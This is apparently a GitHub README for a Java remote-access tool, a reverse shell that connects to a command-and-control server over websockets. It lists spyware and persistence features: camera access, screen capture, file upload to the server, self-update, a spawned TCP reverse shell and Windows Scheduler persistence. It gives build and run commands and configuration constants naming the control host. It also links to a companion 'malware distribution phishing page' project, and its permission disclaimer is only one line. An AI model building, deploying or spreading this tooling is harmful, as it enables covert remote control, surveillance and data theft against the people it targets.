 # Java Reverse Shell with Websockets

This Java project implements a reverse shell that connects to a command and control server using websockets.

## Features

- Remote Command Execution  
- Upload Files to C2 Server
- Play rick roll on target computer
- Access Camera
- Screen Capture
- Update Malware From C2 Server
- Spawn a TCP Reverse Shell
- Persistence via Windows Scheduler  

## Table of Contents

- [Prerequisites](#prerequisites)
- [Installation](#installation)
- [Usage](#usage)
- [Configuration](#configuration)
- [Security Considerations](#security-considerations)
- [C2 Components](#C2-Components)
- [Contributing](#contributing)

## Prerequisites

Before you begin, ensure you have the following prerequisites:

- Java Development Kit (JDK) installed
- Maven installed

## Installation

1. Clone the repository:

    ```bash
    git clone https://github.com/The-Hustler-Hattab/ReverseShellWebSocketAgent.git
    ```

2. Navigate to the project folder:

    ```bash
    cd ReverseShellWebSocketAgent
    ```

3. Build the project using Maven:

    ```bash
    mvn clean install
    ```

## Usage
The project will generate jar with dependencies and exe file.
To use the reverse shell, run the following command:

```bash
java -jar target/reverseShell-1.0.1-jar-with-dependencies.jar
```
## Configuration
Configure the reverse shell by editing the src/main/com/mtattab/reverseshell/util/constants file. Update the following properties:
```java
public static final String SERVER_WEBSOCKET_URI = "wss://c2-server.mtattab.com/reverseShellClients" ; // c2 websocket uri
public static final String SERVER_HTTP_URI = "https://c2-server.mtattab.com" ; // c2 uri for uploading files to s3
```


## Security Considerations
Ensure that you have permission to run the reverse shell on the target system.
Use secure connections (e.g., HTTPS) for the command and control server.
Implement additional security measures as needed for your specific use case.

## C2-Components

[C2 UI](https://github.com/The-Hustler-Hattab/c2-ui)  
[C2 Server](https://github.com/The-Hustler-Hattab/C2JavaServer)   
[C2 JAVA Agent](https://github.com/The-Hustler-Hattab/ReverseShellWebSocketAgent)  
[C2 C# .NET Agent (RECOMMENDED)](https://github.com/The-Hustler-Hattab/WebSocketReverseShellDotNet)  
[Malware Distribution Phishing Page](https://github.com/The-Hustler-Hattab/obs-project-phishing)  

## Contributing
Contributions are welcome! 
Please make a pull request for new features

